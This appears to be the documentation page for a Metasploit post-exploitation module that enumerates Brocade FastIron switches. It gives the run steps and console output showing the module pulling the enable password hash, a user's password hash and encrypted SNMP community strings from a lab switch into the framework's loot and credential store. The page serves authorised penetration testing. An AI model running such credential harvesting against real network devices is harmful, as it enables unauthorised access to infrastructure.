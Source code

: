 ## Vulnerable Application

This module has been tested on the following hardware/OS combinations.

* Brocade ICX 6430-24
  * Firmware: 08.0.20T311

The ICX config can be found [no passwords](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_nopass.conf),
[hashes](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_pass.conf)

This module will look for the following parameters which contain credentials:

* FastIron
  * `show configuration`

!!! keep in mind 'password-display'
http://wwwaem.brocade.com/content/html/en/command-reference-guide/fastiron-08040-commandref/GUID-169889CD-1A74-4A23-AC78-38796692374F.html
!!! need to be able to give a password to enable

  * super-user-password
  * username
  * SNMP

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: ```use post/networking/gather/enum_brocade```
4. Do: ```set session [id]```
5. Do: ```set verbose true```
6. Do: ```run```

## Options

## Scenarios

### ICX 6430-24, FastIron 08.0.20T311

#### SSH Session with password-display off

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In a non-enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601203656_default_10.0.4.51_brocade.version_751557.txt
[*] Gathering info from show configuration
[!] password-display is disabled, no password hashes displayed in config
[*] Post module execution completed
```

#### SSH Session with Enable run

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In an enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601221921_default_10.0.4.51_brocade.version_839783.txt
[*] Gathering info from show configuration
[+] password-display is enabled, hashes will be displayed in config
[+] enable password hash $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.
[+] User brocade of type 8 found with password hash $1$f/uxhovU$dST5lNskZCPQe/5QijULi0.
[+] ENCRYPTED SNMP community $MlVzZCFAbg== with permissions ro
[+] ENCRYPTED SNMP community $U2kyXj1k with permissions rw
[*] Post module execution completed
msf post(networking/gather/enum_brocade) > loot

Loot
====

host       service  type             name         content     info                   path
----       -------  ----             ----         -------     ----                   ----
10.0.4.51           brocade.version  version.txt  text/plain  Brocade Version        /root/.msf4/loot/20190601221959_default_10.0.4.51_brocade.version_003751.txt
10.0.4.51           brocade.config   config.txt   text/plain  Brocade Configuration  /root/.msf4/loot/20190601222004_default_10.0.4.51_brocade.config_998514.txt

msf post(networking/gather/enum_brocade) > creds
Credentials
===========

host       origin     service         public   private                             realm  private_type
----       ------     -------         ------   -------                             -----  ------------
10.0.4.51  10.0.4.51  22/tcp          enable   $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.         Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $MlVzZCFAbg==                              Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $U2kyXj1k                                  Nonreplayable hash
10.0.4.51  10.0.4.51  22/tcp          brocade  $1$f/uxhovU$dST5lNskZCPQe/5QijULi0         Nonreplayable hash
```
